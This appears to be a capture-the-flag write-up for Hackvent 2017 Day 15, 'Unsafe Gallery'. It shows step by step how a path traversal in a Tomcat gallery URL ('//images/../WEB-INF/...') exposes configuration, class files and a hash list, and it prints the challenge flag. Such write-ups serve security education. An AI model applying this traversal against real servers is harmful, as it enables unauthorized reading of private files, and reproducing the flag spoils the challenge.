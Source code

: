 Day 15: Unsafe Gallery
======================
> *See pictures you shouldn't see*
> 
> The List of all Users of the Unsafe Gallery was leaked (See account list).
> With this list the URL to each gallery can be constructed. E.g. you find Danny's gallery here.
> 
> Now find the flag in Thumper's gallery.

Here we got a CSV file that was useless for me in the end (but costed me a lot of time). And the URL to a gallery: <http://challenges.hackvent.hacking-lab.com:3958/gallery/bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw>

When browsing the gallery and trying to fiddle with the URL, we notice the double slash that is required to access a picture, for example in <http://challenges.hackvent.hacking-lab.com:3958/gallery/bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw//images/tunnel.jpg> This hints already at some issue in the web server configuration. Then when playing a bit more one can find an HTTP 500 error message at <http://challenges.hackvent.hacking-lab.com:3958/gallery/bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw//images> that includes the following:
```
<h1>HTTP Status 500 - String index out of range: -1</h1><HR size="1" noshade="noshade"><p><b>type</b> Exception report</p><p><b>message</b> <u>String index out of range: -1</u></p><p><b>description</b> <u>The server encountered an internal error that prevented it from fulfilling this request.</u></p><p><b>exception</b> <pre>java.lang.StringIndexOutOfBoundsException: String index out of range: -1
	java.lang.String.substring(String.java:1927)
	ch.dkuhn.hackvent2017.gallery.filter.HashFilter.doFilter(HashFilter.java:65)
</pre></p><p><b>note</b> <u>The full stack trace of the root cause is available in the Apache Tomcat/7.0.82 logs.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.82</h3>
```

So we have a Tomcat with some Java application and some issue with the routing of the requests or some parsing here. Fiddling a bit more and with some payload lists we can get to the very interesting point, a local file inclusion, querying this URL <http://challenges.hackvent.hacking-lab.com:3958/gallery/bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw//images/../WEB-INF/web.xml> actually returns the `web.xml` file for the application. Interestingly this doesn't work in a browser or wiht wget or curl. They all strip the `/images/../` part and LFI is not triggered. Once we have this it's only a matter of minutes to access the previously found class `ch.dkuhn.hackvent2017.gallery.filter.HashFilter` using the URL <http://challenges.hackvent.hacking-lab.com:3958/gallery/bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw//images/../WEB-INF/classes/ch/dkuhn/hackvent2017/gallery/filter/HashFilter.class>

Analysing this class using a decompiler reveals the following custom imports:
```
import ch.dkuhn.hackvent2017.gallery.Gallery;
import ch.dkuhn.hackvent2017.gallery.ImageService;
import ch.dkuhn.hackvent2017.gallery.UserService;
import ch.dkuhn.hackvent2017.gallery.model.User;
```

As well as the ID of our Thumper:
```
  private static final int ID_OF_THUMPER = 38852;
```

And a call to a `getHash` function that looks interesting:
```
    User u = UserService.getUser(hash);
```

Then we read the code of the `UserService` class in the same way as before to find how the hash is calculated:
```
    File file = new File(classLoader.getResource("hashes.csv").getFile());
```

And this is a surprise, it seems that the hash is actually loaded from a file. And since we have a local file inclusion we can use it to read the file at this URL <http://challenges.hackvent.hacking-lab.com:3958/gallery/bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw//images/../WEB-INF/classes/hashes.csv> And in this file we find the line corresponding to Thumper using the ID 38852:
```
38852,Thumper,silver,active,37qKYVMANnIdJ2V2EDberGmMz9JzS1pfRLVWaIKuBDw=,7
```

Then we can simply remove the trailing `=` at the end to have the hash and use it in the URL <http://challenges.hackvent.hacking-lab.com:3958/gallery/37qKYVMANnIdJ2V2EDberGmMz9JzS1pfRLVWaIKuBDw> and the flag is displayed in the gallery comments:
```
HV17-el2S-0Td5-XcFi-6Wjg-J5aB
```
